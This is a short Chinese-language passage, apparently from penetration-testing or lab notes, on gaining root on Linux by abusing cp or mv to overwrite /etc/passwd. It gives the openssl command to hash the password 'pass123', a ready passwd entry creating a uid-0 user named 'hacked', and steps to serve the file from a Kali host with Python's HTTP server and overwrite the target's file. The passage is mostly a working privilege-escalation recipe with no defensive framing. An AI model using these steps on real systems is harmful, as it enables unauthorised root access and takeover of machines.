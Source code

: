 `cp` 和 `move` 命令的核心理念就是覆盖`/etc/passwd`或`/etc/shadow `文件，从而获取 root 权限

使用 openssl 可以生成 linux 密码 hash：
```
#生成密码为pass123的 hash

openssl passwd -1 -salt ignite pass123
>> $1$ignite$3eTbJm98O9Hz.k1NTdNxe1
```
构造 passwd 中的用户信息：
```
# 0:0表示 uid 和 gid 都是 0，等同于 root 用户，这样我们切换到该用户后，实际权限就是 root
# hacked:pass123

hacked:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash
```

在本地主机（例如 kali）构造好 passwd 文件之后，使用 python-http.server 将 passwd 上传到目标机器，然后覆盖即可。
